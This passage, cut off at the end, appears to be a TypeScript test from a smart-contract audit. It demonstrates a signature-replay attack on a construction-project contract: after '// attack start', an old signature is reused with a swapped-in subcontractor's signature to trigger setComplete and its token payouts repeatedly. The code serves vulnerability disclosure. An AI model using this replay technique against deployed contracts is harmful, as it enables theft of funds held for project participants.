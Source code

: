 ```typescript
    await mockDAIContract.mock.transfer
      .withArgs(scAliceSigner.address, taskCost)
      .returns(true);
    await mockDAIContract.mock.transfer
      .withArgs(scBob, taskCost)
      .returns(true);
    await mockDAIContract.mock.transfer
      .withArgs(await homeFiContract.treasury(), taskCost / 1e3)
      .returns(true);


    const setCompleteData = {
      types: ['uint256', 'address'],
      values: [taskID, project.address],
    };
    let setCompleteSignedData = await signData(setCompleteData);
    let tx = await project.setComplete(setCompleteSignedData[0], setCompleteSignedData[1]);
    await expect(tx).to.emit(project, 'TaskComplete').withArgs(taskID);


    // attack start
    await changeSC(changeToAliceSignedData[0], changeToAliceSignedData[1]);

    await (await project.connect(scAliceSigner).acceptInviteSC([taskID])).wait();

    // the only thing that has changed is that alice became a subcontractor
    // IRL Alice can simply take the old signatures and replace Bob's signature
    // with her own signature
    let aliceSetCompleteSignedData = await signData(setCompleteData);


    tx = await project.setComplete(setCompleteSignedData[0], aliceSetCompleteSignedData[1]);
    await expect(tx).to.emit(project, 'TaskComplete').withArgs(taskID);

    await changeSC(changeToBobSignedData[0], changeToBobSignedData[1]);
    await changeSC(changeToAliceSignedData[0], changeToAliceSignedData[1]);

    await (await project.connect(scAliceSigner).acceptInviteSC([taskID])).wait();
    
    tx = await project.setComplete(setCompleteSignedData[0], aliceSetCompleteSignedData[1]);
    await expect(tx).to.emit(project, 'TaskComplete').withArgs(taskID);
    

    async function signData(data: DataType) {
      let contractor = await project.contractor();
      let builder = await project.builder();
      let taskDetails = await project.getTask(taskID);
      let sc = taskDetails.subcontractor;
      // console.log({ contractor, builder, sc })

      let changeSignersAddress = [contractor, sc];
      let contractorDelegated = await project.contractorDelegated();
      if (!contractorDelegated) {
        changeSignersAddress.unshift(builder);
      }
      changeSignersAddress = changeSignersAddress.filter(x => x !== ethers.constants.AddressZero);
      const dataSigners = changeSignersAddress.map(signer => getSignerByAddress(signers, signer));

      // console.log({ changeSignersAddress })
      return await multisig(data, dataSigners);
    }

    async function changeSC(encodedData: string, signature: string) {
```